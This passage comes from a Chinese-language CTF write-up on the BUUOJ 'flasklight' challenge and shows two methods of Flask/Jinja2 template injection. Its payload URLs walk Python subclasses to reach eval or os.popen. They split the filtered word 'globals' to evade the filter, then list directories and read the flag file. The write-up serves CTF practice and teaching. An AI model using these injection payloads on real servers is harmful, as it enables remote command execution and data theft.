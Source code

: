 ![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107110656.png)

>   找到位置后通过`__init__`进行初始化，然后使用`__globals__`获得全局变量，在使用`__builtins__`内键命名空间，运行一个`eval`对象，参数为`__import__('os').popen('ls').read()`，意思为导入`os`模块然后使用`popen()`方法执行命令，这个方法还有两个可选参数，分别为文件读取权限的模式（默认为 r ）、缓冲大小，最后通过`read()`方法读取内容，**read()方法不传入参数默认读取所有**

>   其中需要注意的是globals这个单词放一起会被过滤掉，需要使用拼接方式绕过

```c
http://9a411cb8-676e-4159-b700-8e87fb573761.node4.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107115632.png)

>   然后查看**flasklight** 文件夹中的内容，

```c
http://9a411cb8-676e-4159-b700-8e87fb573761.node4.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls flasklight').read()")}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107115717.png)

>   最后读取flag

```c
http://9a411cb8-676e-4159-b700-8e87fb573761.node4.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('cat flasklight/coomme_geeeett_youur_flek').read()")}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107115809.png)

## 3、解法三

>   前面同样的需要获取到所有类的属性，不过这次需要找到`class 'site._Printer'`的下标位置

>   使用上面的脚本可以找到**下标位置为71**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107134242.png)

>   关于`class 'site._Printer'`这个类，这个类是内含os模块的，所以可以直接使用os模块，然后使用popen()方法执行命令，使用read()方法获取其返回值，这里也是同样globals被过滤掉了

```c
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107134714.png)

>   然后查看flasklight 文件夹

```c
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls flasklight ').read()}}
```

